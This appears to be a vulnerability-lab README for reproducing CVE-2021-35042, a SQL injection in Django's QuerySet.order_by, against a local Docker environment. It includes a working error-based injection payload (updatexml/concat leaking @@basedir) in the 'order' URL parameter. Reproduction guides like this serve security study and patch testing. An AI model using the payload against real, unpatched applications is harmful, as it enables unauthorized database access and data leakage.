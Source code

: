 # Django QuerySet.order_by SQL Injection Vulnerability (CVE-2021-35042)

[中文版本(Chinese version)](README.zh-cn.md)

Django released a security update on July 1, 2021, which fixes a SQL injection vulnerability in the function QuerySet.order_by.

Reference link:

- https://www.djangoproject.com/weblog/2021/jul/01/security-releases/

The vulnerability requires the developer to use order_by function. Moreover, the input of the queryset can be controlled.

## Start Vulnerability Application

Compile and start a vulnerable Django 3.2.4 by executing the following command:

```
Docker-compose build
Docker-compose up -d
```

After the environment is started, you can see the home page of Django at `http://your-ip:8000`.

## Vulnerability Reproduce

First, go to the list-view `http://your-ip:8000/vuln/` and add `order=-id` to the GET parameter.

http://your-ip:8000/vuln/?order=-id

You will see the data sorted by id in descending order:

![](1.png)

Add `order=vuln_collection.name);select updatexml(1, concat(0x7e,(select @@basedir)),1)%23` to the GET parameter, where `vuln` is your app and `collection` is the models.

`http://your-ip:8000/vuln/?order=vuln_collection.name);select%20updatexml(1,%20concat(0x7e,(select%20@@basedir)),1)%23`

You can see that the single bracket  has been injected successfully, and you can get the information from the error:

![](2.png)
